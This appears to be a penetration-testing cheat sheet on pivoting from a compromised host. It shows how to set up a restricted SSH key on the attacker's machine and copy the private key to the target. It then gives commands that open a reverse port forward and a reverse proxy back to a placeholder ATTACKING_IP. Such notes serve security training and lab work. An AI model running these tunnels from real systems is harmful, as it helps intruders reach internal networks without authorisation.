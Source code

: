 ## Access your machine from the target using your creds (NOT ADVISED) or a key based system

#### 1: ssh-keygen to generate a new set of SSH keys, then store them somewhere safe.

#### 2: Copy the contents of the public key (.pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine.

#### You may need to create the "~/.ssh" directory and "authorized_keys" file first.

#### 3: On a new line type the following, then paste in the public key:

### Command = "echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty *

#### * This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

#### 4: Check if the SSH server is running:

 -  sudo systemctl status ssh

 -  sudo systemctl start ssh

#### 5: Transfaer the private key to the target box.

#### 6: Connect back with a reverse port forward:

 - ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

#### reverse proxy: 

 -  ssh -R PORT USER@ATTACKING_IP -i KEYFILE -fN
